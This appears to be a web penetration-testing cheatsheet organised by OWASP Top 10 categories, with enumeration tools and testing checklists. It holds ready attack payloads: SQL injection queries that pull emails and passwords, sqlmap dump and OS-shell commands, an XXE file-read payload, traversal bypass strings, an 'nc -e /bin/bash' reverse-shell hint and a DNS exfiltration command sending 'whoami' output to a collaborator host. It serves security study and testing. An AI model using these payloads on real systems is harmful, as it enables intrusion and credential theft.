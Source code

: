 
# Methodology // Exploitation Cheatsheet

#

-----------------------------------------------------------------------------


<details>
  <summary>Methodology</summary>
  <br>
    
   # Enumeration
    
   ## Content discovery
  
   - What is the server running on/versions?
    - Wappalyzer
    - Response headers
    - Inspect source
    - Fingerprint server
    
          httprint -P0 -h <IP> -s /usr/share/httprint/<signature file>
          
   ## Scanning 
  
  - Have a BURP audit and crawler going against the site
 
  - Nikto scan 
  
        nikto -update 
  
        nikto -dbcheck
        
        nikto -h <url> 
        
          -p port          
          -ssl  force ssl on port
          -nossl disable use of ssl
          -id <username>:<password>
  
  - Have gobuster running
  
           
        gobuster dir -u <URL> -w <wordlist>

         -c <cookie> specify cookie

         -e <extensions>

         -P string
                 Password for Basic Auth (dir mode only)
         -U string
                 Username for Basic Auth (dir mode only)
  
  
  - [Header scanning](https://securityheaders.com/)

  - [Visual site mapper](http://www.visualsitemapper.com/)
  
  ## If the site requires OSINT
  
   ### Subdomain discovery
  
  - Sublist3r (scraping)
  - SubFinder-o
  - [assetfinder](https://github.com/tomnomnom/assetfinder)
   
        assetfinder <domain.TLD>
        
         By default will also find related assets that may not be in the searched domain.
        
          --subs-only   #will only find subdomains
   
  - AMass
  
  - [gowitness](https://github.com/sensepost/gowitness)
  
     Takes screenshots of websites
  
  - [httprobe](https://github.com/tomnomnom/httprobe)
  
      Will check if subdomains responds
 
  - [waybackurls](https://github.com/tomnomnom/waybackurls)
  
      Checks URLs against the wayback machine
  
  ## Walking through the service
  
  - Walk through the site manually and understand it's use
    
  - Note user input sections, URL parameters, etc. Anything interesting
 
  ## Testing
  
  [OWASP Top 10](https://owasp.org/www-project-top-ten/)

  [OWASP checklist](https://github.com/tanprathan/OWASP-Testing-Checklist)

  - Follow along with [OWASP release 4.0](https://www.owasp.org/images/1/19/OTGv4.pdf) for each section
  
  
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>Extracting info from scripts</summary>
  <br>

**Gathering all scripts from a site after a full walk through and scan has been performed with burp running**

  - In the target tab right click the url -> Engagement tools -> Find scripts
  
  - Click export. Click save to file.
  
  Run this against the following: 
  
  - [Web script info extractor](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Toolbox/extract.py)
  
        wget https://raw.githubusercontent.com/Kahvi-0/Tools-and-Concepts/master/Toolbox/extract.py && chmod -x extract.py
        
        ./extract.py <file>

</details>

<details>
  <summary>HTTP version syntax</summary>
  <br>
  
  **HTTP/1.0** 
   
      GET <resource> HTTP/1.0
      
  **HTTP/1.1** 
   
      GET <resource> HTTP/1.0
      Host: <domain>.<tld>
  
</details>


<details>
  <summary>Exploiting Misconfigured HTTP Verbs</summary>
  <br>
  
  **DELETE** 
   
        DELETE  <resource> HTTP/1.0
        
  **PUT**
  
        PUT /<filename for upload> HTTP/1.0 
        Content-type: text/html
        Content-length: <size of upload. Burp will auto count>
        
        
        <script>
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>Injection</summary>
  <br>
<details>
  
  <summary>SQLi</summary>
  <br>
  
  [SQL Syntax](https://www.w3schools.com/sql/sql_intro.asp) 
  
  [Injection](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)
  
  SQL statements begin with verbs.
 - Common SQL verbs:
        - SELECT
        - INSERT
        - DELETE
        - UPDATE
        - DROP
        - UNION
   
   - Terms:
        - WHERE - Filters records based on specific condition
        - AND/OR/NOT - Filter records based on multiple condtions
        - ORDER BY - Sorts records in ascending/descending order
        
   - Special characters:
        - ' and " - string delimeters
        - -- , /* and #  - Comment delimiters
        - * and %  - wildcards
        - ; - ends SQL statement
        - Others that follow programmatic logic - = , + , > , < , () , etc
        
   **Test vectors**
   
     - GET parameters
    
        Note on comments for GET requests: not just two dashes and a space, also add a third dash. Because most of the browsers automatically remove trailing spaces in the URL so, if you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment i.e. -- -
     
     - POST parameters
     - HTTP Headers
       - UA
       - Cookies
       - Accept 
       - Etc
       
   **Test input**
   
     •String terminators: 'and "
     •SQL commands: SELECT, UNION, and others
     •SQLcomments:#or--
     • Closing off '))-- for URL parameters. Then try to move to a UNION SELECT
     
      **Exploit**
         
  **Boolean based SQLi**
  
   Trying blind SQL to figure out the contents of a field
  
       ' or substr(user(), 2, 1)= 'a
       
  **Union based**
  
   For if output is directly displayed on the output page. To exploit a SQL injection, you first need to know how many fields the vulnerable query selects. Which is done by trial and error. 
   
    ' UNION SELECT null; --
    ' UNION SELECT null,null; --
    
   Example: 
     
    ')) UNION SELECT 1,2,3,4,5,6,7,<payload> --
     

  Each null represents a field. Usually an SQL error page will represnt that we have the wrong number of fields. An SQL "false" (try to determine this once an SQLi has been discovered, i.e paramter image=<sql>, true=image loads, false=broken image) condition will represent that we have guessed the correct total of fields (do one extra just in case). 
  
  If you want to exploit this manually, the request needs to line up with the number of fields that are found to exist. 
  
  For example if I am injecting a URL parameter and found that there are 8 fields, the SQLi would look similar to this: 
    
         URL?query=')) UNION SELECT 1,2,3,4,5,6,7,8 --
         
   If I wanted to get the email and password field using this SQLi it would look like this:
   
         URL?query=')) UNION SELECT 1,2,3,4,5,6,email,password from Users--
         
   See how the email and password file replace 7 and 8 then asks from the Users table.

  
   Other payloads:
   
     ' UNION SELECT <SQL command>; --
     
     user() gets user running SQL
     
 **SQLMap**
 
   [Cheatsheet 1](https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d)
   
   Identifying SQL vulnerabilities 
   
    sqlmap -u "<url><resource>?id=1"
   
   
   sqlmap with GET request
   
     sqlmap -u "<url><resource>?id=1" -p id
     
      --cookie="<cookie>"
     
   sqlmap with POST request
   
     use Burp to save the injectable request to a text file
     
     sqlmap -r POSTrequest.txt -p <injectable parameter>
     
   Get tables
     
     sqlmap -u <url><resource>?id=1 -p id --tables
     
   Get contents
   
    sqlmap -u <url><resource>?id=1 -D awd -T accounts --dump
    
   Get OS shell
   
    --os-shell   
    
   this can sometimes be unstable and is a good idea to use this to initicate a reverse [shell](https://github.com/Kahvi-0/Cheat-Sheets/tree/master/Shell%20code)

   SQL query example:
   
        <verb> <* or column> FROM <Table name> WHERE <Term / Condition> 
</details>

<details>
  <summary>Command injection</summary>
  <br>
Command Injection occurs when server-side code (like PHP) in a web application makes a system call on the hosting machine.  It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.  Sometimes this won't always end in something malicious, like a whoami or just reading of files.  That isn't too bad.  But the thing about command injection is it opens up many options for the attacker.  The worst thing they could do would be to spawn a reverse shell to become the user that the web server is running as.  A simple ;nc -e /bin/bash is all that's needed and they own your server. some variants of netcat don't support the -e option.  

Once the attacker has a foothold on the web server, they can start the usual enumeration of your systems and start looking for ways to pivot around.  Now that we know what command injection is, we'll start going into the different types and how to test for them.

Active command injection occurs when you can see the response from the system call.

For example: the function [passthru()](https://www.php.net/manual/en/function.passthru.php) is actually whats passing the input to the system with PHP.
</details>

#

</details>

<details>
  <summary>Broken Authentication</summary>
  <br>
   
   [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

   Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.
   
    - Testing login/password recovery error for username enumeration
    
    - Weak creds. Site allowing username as password.
    
    - Session fixation
        - How are session IDs handled? In URL or cookie? Are they encrypted/handled properly?
        - Does logging out revoke the cookie? Immediatly?
        - Is there a timeout on the session cookie?
        
        

</details>


<details>
  <summary>Sensitive Data Exposure</summary>
  <br>
   
 [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
 
 Many web applications and APIs do not properly protect sensitive data, such as financial, healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra protection, such as encryption at rest or in transit, and requires special precautions when exchanged with the browser. At more complex levels this often involves techniques such as a "Man in The Middle Attack", whereby the attacker would force user connections through a device which they control, then take advantage of weak encryption on any transmitted data to gain access to the intercepted information (if the data is even encrypted in the first place). The most common way to store a large amount of data in a format that is easily accessible from many locations at once is in a database.
 
   - Stored credentials in site/site scripts
   
   - Backup directories
   
   - Dev directories
   
   - Internal data
   
   - Not in a dir accessable to anyone
   
   - Not Encrypted sensitive data if accessible
   
   - Are appropriate headers applie so attacks against a session cannot occur? Mitm/downgrade/etc
      - [Header scanning](https://securityheaders.com/)
      
   - Does it support new/degraded encryption. 
       
         nmap --script=ssl-enum-ciphers -p 443 <URL>
         
   Flat-file DB: In a production environment it is common to see databases set up on dedicated servers, running a database service such as MySQL or MariaDB; however, databases can also be stored as files, referred to as "flat-file" databases, as they are stored as a single file on the computer. This is much easier than setting up a full database server, and so could potentially be seen in smaller web applications. What happens if the database is stored underneath the root directory of the website? It can be downloaded and queired on our own machine, with full access to everything in the database. 
    
</details>


<details>
  <summary>XXE</summary>
  <br>
   
  **What is XML?**

XML (eXtensible Markup Language) is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. It is a markup language used for storing and transporting data. 

 **Why we use XML?**

1. XML is platform-independent and programming language independent, thus it can be used on any system and supports the technology change when that happens.

2. The data stored and transported using XML can be changed at any point in time without affecting the data presentation.

3. XML allows validation using DTD and Schema. This validation ensures that the XML document is free from any syntax error.

4. XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.

  **Syntax**

Every XML document mostly starts with what is known as XML Prolog.

<?xml version="1.0" encoding="UTF-8"?>

Every XML document must contain a `ROOT` element.

Example:

    <?xml version="1.0" encoding="UTF-8"?>
    <mail>
       <to>falcon</to>
       <from>feast</from>
       <subject>About XXE</subject>
       <text>Teach about XXE</text>
    </mail>

mail is the root element.. The rest are the children elements.

Above the line is called XML prolog and it specifies the XML version and the encoding used in the XML document. This line is not compulsory to use but it is considered a `good practice` to put that line in all your XML documents.


**DTD**
   DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.
   
   Take note.dtd as an example containing: 
   
     <!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
     
     !DOCTYPE note  defines a root element of the document names note.
     The !ELEMENT here is used to define which elements are type #PCDATA ( in this case all of them) 
     !ELEMENT note defines the note element must contain the elements listed right after. 
     
   In the XML document uses note.dtd:
   
       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE note SYSTEM "note.dtd">
       <note>
          <to>falcon</to>
          <from>feast</from>
          <heading>hacking</heading>
          <body>XXE attack</body>
        </note>
   
   
   [XML External Entities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
   
   Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks. An XML entity is like a variable that you can call into the page later. On the page you care only able to use alphanumeraic characters for strings, however you can call in an entity that contains special characters. You will notice the SYSTEM key word to let the parser know that the resource is external, i.e can pull data from the system. 
   
   An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.
   
   
   There are two types of XXE attacks: in-band and out-of-band (OOB-XXE).
   
1) An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.

2) out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.

   [XXE Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
   
   Example payload: 
   
        <?xml version="1.0"?>
        <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
        <root>&read;</root>
   defining an ENTITY with the name read and setting it value to `SYSTEM` and path of the file.
  
</details>

<details>
  <summary>Broken Access Control</summary>
  <br>
  
  [Broken Access Controls](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
  
  Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc
  
  IDOR, or Insecure Direct Object Reference, is the act of exploiting a misconfiguration in the way user input is handled, to access resources you wouldn't ordinarily be able to access. IDOR is a type of access control vulnerability.


   - Look for client side code that handle data incorrectly
       - Hidden fields that have password/ UID data that can be minipulated
       - Cookies that improperly control access (i.e IsAdmin cookie)
       - 
   
   <details>
    <summary>403 restrictions bypass</summary>
     <br>
   
     Try other HTTP methods
   
       Try headers:
   
       X-Original-URL: <path>
     
       X-Rewrite-URL: <path>
   
   </details>
</details>


<details>
  <summary>Security Misconfiguration</summary>
  <br>

   [Security Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)
   
   Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched/upgraded in a timely fashion.
</details>


<details>
  <summary>XSS</summary>
  <br>
   [XSS](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)) 
    
   [Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   
   XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites. Note that reflected and DOM based XSS require social engineering. 
   
  [Payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
   
   Blacklist bypassing:
    
     - Pay around with what is beng removed with input is entered. 
     
      + 
      
      <<  >> /
      
      Uppercase/lowercase
      
      encoding
   
</details>

<details>
  <summary>Insecure Deserialization</summary>
  <br>
   
   [Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)
   
   Serialisation is the process of converting objects used in programming into simpler, compatible formatting for transmitting between systems or networks for further processing or storage.

Alternatively, deserialisation is the reverse of this; converting serialised information into their complex form - an object that the application will understand.

Examples:
  
   - Ip address in a packet being turned into binary then back into digits once its at its desitnation
   - Cookies

   
   Taking data that is serialized (taking data, and converting it to a different format), and deserializing it. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks. 
   
   At summary, ultimately, any application that stores or fetches data where there are no validations or integrity checks in place for the data queried or retained.
   
   A prominent element of object-oriented programming (OOP), objects are made up of two things:
- State
- Behaviour

Simply, objects allow you to create similar lines of code without having to do the leg-work of write all lines of code.

For example, a lamp would be a good object. Lamps can have different types of bulbs, this would be their state, as well as being either on/off - their behaviour!

Rather than having to accommodate every type of bulb and whether or not that specific lamp is on or off, you can use methods to simply alter the state and behaviour of the lamp.
   
   https://github.com/frohoff/ysoserial
   
</details>

<details>
  <summary>Using Components with Known Vulnerabilities</summary>
  <br>
   
   [Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities)
   
   Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts. Look for CVE or known vulnerabilities with software versions the target is running.
</details>

<details>
  <summary>Insufficient Logging&Monitoring</summary>
  <br>
   
   [Insufficient Logging&Monitoring](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring)
   
 Insufficient logging and monitoring, coupled with missing or ineffective integration with incident response, allows attackers to further attack systems, maintain persistence, pivot to more systems, and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over 200 days, typically detected by external parties rather than internal processes or monitoring.
</details>


<details>
  <summary>Parameters</summary>
  <br>
  
  Garbage info ( symbols, negative intigers)
  
  Other account tokens, token mixing
  
  HPP
  
</details>


<details>
  <summary>File Upload</summary>
  <br>
  
  Things to think about:
  
    - File size limit for DoS
  
    - Santized filenames ? buffer overflow
  
    - How are zip files handeled if accepted?
  
    - How are files renamed / accessed
  
    - Check Content-Type header
    
    - is it a blacklist or a whitelist
    
    - How are the files being varified? Name, POST form or file content?
  
  Payloads: 
  
   ## manual testing bypass
    
    .PhP .php3 .php5
    
    .php00.png
    
    .php (1).png
  
  ## Use Burp intruder against the wordlist inder /usr/share/wordlists/dirb/
    
    
   ## Editing upload request 
</details>


<details>
  <summary>Open redirects</summary>
  <br>
 
  If the site redirects.
  
  Server side: 
   
    - Referer in Http request
    - Checking if only relative / are allowed. // is a protocol agnostic, absolute URL. Try that.
  
  Client side:
  
    - window.location how is it checked? 
</details>

<details>
  <summary>Privilege Escalation</summary>
  <br>
  
  Cookies:
     How are sessions being held in cookies. Vuln to tampering (no digital sig)?
     What other info is in the cookies? 
     Try to see if the server will take untrusted data from your requests.
     Encrypted?
      
  <details>
  <summary>Try Horizontal escalation:</summary>
  <br>
  Horizontal privilege escalation occurs when an application allows the attacker to gain access to resources which normally would have been protected from an application or user. The result is that the application performs actions with the same but different security context than intended by the application developer or system administrator; this is effectively a limited form of privilege escalation (specifically, the unauthorized assumption of the capability of impersonating other users). 
  </details>   

  Finding a way tio make requests as an admin 
   
  <details>
  <summary>Vertical Escalation</summary>
  <br>
  This type of privilege escalation occurs when the user or process is able to obtain a higher level of access than an administrator or system developer intended, possibly by performing kernel-level operations. 
  </details>
</details>

<details>
  <summary>Session Fixation</summary>
  <br>
  
  Can you take control of an authenticated users session using the sessionID.
  
  - Use the sessionID that has already been established
  
  - Craft a sessionID and see if that sticks. i.e www.site.com/login?jsessionID=CraftedID 
    Login and see if the sessionID stays the same.
  
</details>


<details>
  <summary>Command Injection</summary>
  <br>

 Areas with user input that could have its handleing manipulated to run an OS command.

   Parrameters sent such as those in URLs i.e ?filename=  or user input.
  
  Command seperators which allow for commands to be chained together. 
   nix/Windows
   
    & 
    && (extra & separates the injected command from whatever follows the injection point.)
    |
    ||
    
   Unix
    
    ;
    0x0a or /n (newline)
    
   Unix. Back ticks or dollar character can be used to perform inline execution of an injected command within the original command. 
     
    ' Command ' 
    $(Command)
    
  Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

 Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to  terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 


  Useful commands 

    Purpose of command 	Linux 	Windows
    Name of current user 	whoami 	whoami
    Operating system 	uname -a 	ver
    Network configuration 	ifconfig 	ipconfig /all
    Network connections 	netstat -an 	netstat -an
    Running processes 	ps -ef 	tasklist 
    
   Blind:
    
   wait X seconds to test
   
     ping -c X 127.0.0.1 
     
   Rediecting blind output
   
    whoami > /<writable folder>
    
    Then naviage to that file  www.example.ca/<writeable file>
     
     
   Note that the file may only be accessable how the server allows it to be accessed. 
   Example: you write to an image directory but the server only allows the files to be accessed via 
      
       /image?filename=myfile.txt 
       so /image/myfile.txt may not work.
   
   Out-of-band
   
   Having the server interact with another system you control 
   
    ping BurpCollab
    
   Exfultrate data using out-of-band
   
    $(nslookup `whoami`.c2f2evzg76x5nz0z7m8uwsvvrmxdl2.burpcollaborator.net)
     
   Which will result in this request to my DNS server
    
   [![DNS-request.png](https://i.postimg.cc/L41gCYwc/DNS-request.png)](https://postimg.cc/23C536zG)

</details>

<details>
  <summary>Directory Traversal</summary>
  <br>
  Allows the reading of files on the server that is running the vulnerable application by manipulating a parameter. 
 
     /image?filename=../../../etc/passwd
 
 Attempt with abosule and relative paths as one or the other may be blocked/not blocked.
 
 Bypassing stripped traversal
 
  ....// and ...\/ will strip the detected ../ and ..\ from the centre and the outsides will come together to make ../.
  If what gets parsed / removed is responded use that to try to find a way to bypass. 
  
  encoding:
  
    ..%252f (takes away the 25 and you are left with the / encodded)
    ..%c0%af
  
  Some applications transmit the full path via the request, you may need to append your traversal to that.
 
    /image?filename=/var/www/images/../../../../etc.passwd
    
  Bypass required endings to a file
  
   %00 (null byte)
   
    passwd%00.png
    
  Note that depending on how the server sends thse back you may have to curl the request.
  
    curl https://ac8d1f3e1f7f4d4080c322dc0035009c.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg

 
</details>

<details>
  <summary>Sub Domain Takeover</summary>
  <br>
  
  If a sub domain that is found belonging to a target that is unused may be vulnerable to sub domain takeover. 
  
  Signs: 
  
  Exploit:
</details>


<details>
  <summary>SSRF</summary>
  <br>
  
  - Bypass SSRF fix. Change HTTP version from 1.1 to 0.9 and remove the host header completely. On HTTP/0.9 there is no need for a host header.
</details>


<details>
  <summary>LFI</summary>
  <br>
  
  Cheatsheets: 
  
   [PayloadAllTheThings](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks)
   
</details>


<details>
  <summary></summary>
  <br>
</details>
